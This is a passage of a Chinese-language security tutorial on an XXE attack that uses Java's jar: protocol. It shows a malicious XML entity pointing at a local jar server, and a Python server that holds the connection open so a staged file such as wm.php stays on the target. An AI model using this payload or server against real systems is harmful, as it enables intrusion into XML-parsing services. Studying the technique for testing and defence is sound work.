 有了这个源码以后，我们需要在本地建立一个 xml 文件 ，我取名为 student.xml

**student.xml**

```xml-dtd
<!DOCTYPE convert [ 
<!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
]>
<convert>&remote;</convert>
```

**目录结构如下图：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002649-ea691684-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002649-ea691684-ec17-1.png)

可以清楚地看到我的请求是向自己本地的 9999 端口发出的，那么9999 端口上有什么服务呢？实际上是我自己用 python 写的一个 TCP 服务器

**示例代码：**

**sever.py**

```python
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = 'localhost' 
listen_port = 9999 
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('Client req:\r\n',http_req.decode())
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))

                self.request.sendall(contents[:-1])
                time.sleep(30)
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...') 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
    server_thread.start() 
    server_thread.join()
```
